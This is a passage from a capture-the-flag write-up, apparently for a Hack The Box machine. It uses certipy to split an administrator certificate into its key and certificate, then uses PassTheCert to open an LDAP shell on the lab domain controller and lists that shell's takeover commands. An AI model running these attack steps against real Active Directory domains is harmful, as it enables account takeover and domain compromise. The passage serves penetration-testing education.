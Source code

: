     
    
    oxdf@hacky$ certipy cert -pfx administrator_authority.pfx -nocert -out administrator.key
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Writing private key to 'administrator.key'
    oxdf@hacky$ certipy cert -pfx administrator_authority.pfx -nokey -out administrator.crt
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Writing certificate and  to 'administrator.crt'
    

[This repo](https://github.com/AlmondOffSec/PassTheCert) has C# and Python
tools to do a PassTheCert attack. It also offers an `ldap-shell` option that
allows me to run a limited set of commands on the DC. I’ll clone it, and then
run `passthecert.py` with the following options:

  * `-action ldap-shell` \- provide a limited set of commands
  * `-crt administrator.crt -key administrator.key` \- the certificate and key files
  * `-domain authority.htb -dc-ip 10.10.11.222` \- target info

It connects:

    
    
    oxdf@hacky$ python PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra
    
    Type help for list of commands
    
    #
    

I’ll play around with the various commands:

    
    
    # help
    
     add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
     rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
     add_user new_user [parent] - Creates a new user.
     add_user_to_group user group - Adds a user to a group.
     change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
     clear_rbcd target - Clear the resource based constrained delegation configuration information.
     disable_account user - Disable the user's account.
     enable_account user - Enable the user's account.
     dump - Dumps the domain.
     search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
     get_user_groups user - Retrieves all groups this user is a member of.
     get_group_users group - Retrieves all members of a group.
     get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
     grant_control target grantee - Grant full control of a given target object (sAMAccountName) to the grantee (sAMAccountName).
     set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
     set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
     start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
     write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
     exit - Terminates this session.
    